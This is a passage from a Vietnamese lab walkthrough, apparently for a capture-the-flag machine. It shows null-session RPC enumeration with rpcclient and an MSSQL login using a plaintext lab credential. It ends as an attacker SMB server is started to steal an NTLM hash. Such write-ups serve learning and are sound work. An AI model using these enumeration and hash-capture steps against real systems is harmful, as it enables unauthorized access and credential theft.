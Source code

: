 ### RPC enumeration

Cũng giống như việc enum SMB, ta sẽ kiểm tra liệu service có cho phép anonymous login không (còn được gọi là Null Sessions) bằng `rpcclient`.

```bash
# rpcclient -U "" -N 10.129.174.78
rpcclient $>
```

Giải thích flags:

- `-U ""` username để login vào
- `-N` no pass hay password rỗng

Với kết quả trên đồng nghĩa là target cho phép ta kết nối. Nhưng lại không có quyền để thực thi command.

```bash
# rpcclient -U "" -N 10.129.174.78 -c "enumdomusers"
do_cmd: Could not initialise samr. Error was NT_STATUS_ACCESS_DENIED
```

### Summary

Tới đây, ta có thông tin đăng nhập MSSQL server. Ta sẽ có 1 hướng tiếp cận login vào MSSQL.

 

## 1.2 Initial Access

### MSSQL Login (user reporting)

Kết nối thành công, nhưng lại không thể thực thi các lệnh gì do không có quyền chạy command với `xp_cmdshell` . 

```bash
# impacket-mssqlclient 'reporting:PcwTWTHRwryjc$c6@10.129.174.78' -windows-auth
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL (QUERIER\reporting  reporting@volume)>
```

### Steal NTLM hash

Trước tiên ta cần chuẩn bị server SMB ở máy attacker: 

```bash
# impacket-smbserver SHARE . -smb2support
```
